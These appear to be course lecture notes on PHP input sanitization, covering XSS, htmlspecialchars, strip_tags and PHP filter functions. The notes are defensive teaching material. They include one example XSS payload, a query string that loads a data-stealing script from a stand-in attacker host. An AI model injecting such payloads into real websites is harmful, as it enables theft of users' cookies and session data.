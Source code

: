```yaml
---
layout: base
title: PHP - Sanitization
course: SDEV255
---
```


- [Sanitization](#sanitization)
  - [Validation vs Sanitization](#validation-vs-sanitization)
  - [Purpose of Sanitization](#purpose-of-sanitization)
  - [Escaping Values](#escaping-values)
    - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
      - [How XSS Works](#how-xss-works)
      - [XSS Example](#xss-example)
    - [htmlspecialchars()](#htmlspecialchars)
  - [Removing Unwanted Values](#removing-unwanted-values)
    - [trim()](#trim)
    - [strip_tags()](#strip_tags)
  - [Filter Functions](#filter-functions)
    - [Validate Filters](#validate-filters)
    - [Sanitize Filters](#sanitize-filters)
    - [Filtering a Single Value](#filtering-a-single-value)
    - [Sanitizing a Single Value](#sanitizing-a-single-value)
    - [Filter Flags and Options](#filter-flags-and-options)
    - [Filtering a Single Value with Options](#filtering-a-single-value-with-options)
    - [Filtering Multiple Values](#filtering-multiple-values)
    - [Demos - Complete Form Validation with Filters](#demos---complete-form-validation-with-filters)
  - [Topics for Later](#topics-for-later)

# Sanitization

## Validation vs Sanitization

**Validation** - is the process of ensuring that the input matches the expected format, range, type, length, etc.

**Sanitization** - is the process of removing unwanted characters, whitespace, HTML tags, etc.

## Purpose of Sanitization

- Prevents malicious code from being injected into application
- Prevents unwanted characters from being
  - Displayed to the user
  - Stored in database
  - Stored in files
  - Sent to other applications

## Escaping Values

**Escaping** - is the process of converting special characters to their HTML entity equivalents.

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** - is a type of injection attack where malicious scripts are injected into trusted websites.

The scripts may then:

- Steal cookies and session tokens
- Redirect the user to another website
- Send content to other applications

#### How XSS Works

1. Hacker visits a website and probes for query string vulnerabilities.
<figure>
    <span>
        <img src="images/hacker.jpg" style="width:40%;">
    </span>
</figure>

2. Hacker finds query string named `q` is not sanitized.

3. Hacker tricks other people into visiting website with following query string: `q=<script src=http://really-terrible-site/steal-data.js></script>`

4. JS file runs on victim's browser and sends data to hacker's website.

5. Hacker sells data on the dark web and buys yacht.

<figure>
    <span>
        <img src="https://media.boatsnews.com/src/images/news/articles/ima-computer-science-screen-37738.webp" style="width:40%">
    </span>
</figure>

#### XSS Example

<p class="demo">Walkthrough</p>

[Text: Example of an XSS Attack](http://localhost/phpbook/section_b/c06/)

### htmlspecialchars()

- Converts special characters to HTML entities
- May optionally specify which characters to convert and the character encoding

```php
$input = '<script>alert("XSS");</script>';
<p><?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?></p
```

## Removing Unwanted Values

### trim()

- Removes whitespace from beginning and end of a string
- May optionally specify which characters to remove

```php
$cleanedInput = trim($userInput);
```

### strip_tags()

- Removes HTML tags from a string
- May optionally specify which tags to allow

```php
$cleanedInput = strip_tags($userInput);
```

## Filter Functions

PHP has built-in functions for validating and sanitizing input.

### Validate Filters

Validate filters are used to validate input.

See [PHP: Validate filters](https://www.php.net/manual/en/filter.filters.validate.php)

### Sanitize Filters

Sanitize filters are used to remove unwanted characters.

See [PHP: Sanitize filters](https://www.php.net/manual/en/filter.filters.sanitize.php)

### Filtering a Single Value

```php
// Will return false if value is not valid
$email = filter_input(INPUT_POST, 'email', FILTER_VALIDATE_EMAIL);
```

### Sanitizing a Single Value

```php
// Same effect as htmlspecialchars() with ENT_QUOTES flag
$filtered = filter_input(INPUT_POST, 'val', FILTER_SANITIZE_FULL_SPECIAL_CHARS);
```

### Filter Flags and Options

- Filter flags and options are used to specify how the filter should behave.
- Flags are predefined constants that can be combined using the bitwise OR operator `|`.
- Options are key/value pairs that are passed in an array.
- See [PHP: Filter Flags](https://www.php.net/manual/en/filter.filters.flags.php)

### Filtering a Single Value with Options

```php
// Build options array
$settings['flags']                = FILTER_FLAG_ALLOW_HEX;       // Allow hex flag
$settings['options']['default']   = 0;                           // Default value
$settings['options']['min_range'] = 0;                           // Min number option
$settings['options']['max_range'] = 255;                         // Max number option

// Will return false if value is not between 0 and 255
$number = filter_input(INPUT_POST, 'number', FILTER_VALIDATE_INT, $settings);
```

### Filtering Multiple Values

- We often want to filter multiple values at once, as in the case of a form submission.

```html
<form action="process.php" method="post">
  <input type="text" name="email" />
  <input type="text" name="age" />
  <input type="checkbox" name="terms" />
  <input type="submit" />
</form>
```

```php
// Build filters array
$filters['email']                       = FILTER_VALIDATE_EMAIL;   // Email filter
$filters['age']['filter']               = FILTER_VALIDATE_INT;     // Integer filter
$filters['age']['options']['min_range'] = 16;                      // Min age
$filters['terms']                       = FILTER_VALIDATE_BOOLEAN; // Boolean filter

$form = filter_input_array(INPUT_POST, $filters);                  // Apply filters
var_dump($form);                                                   // Display results
```

### Demos - Complete Form Validation with Filters

<p class="demo">Walkthrough</p>

[Complete Form Validation](https://github.com/mpjovanovich/ivy_tech/blob/main/SDEV255_Web_Application_Development/form_filters_demo/form_filters_demo.php)

## Topics for Later

We have not covered these yet, but santization is also important for:

- Database queries
- File uploads

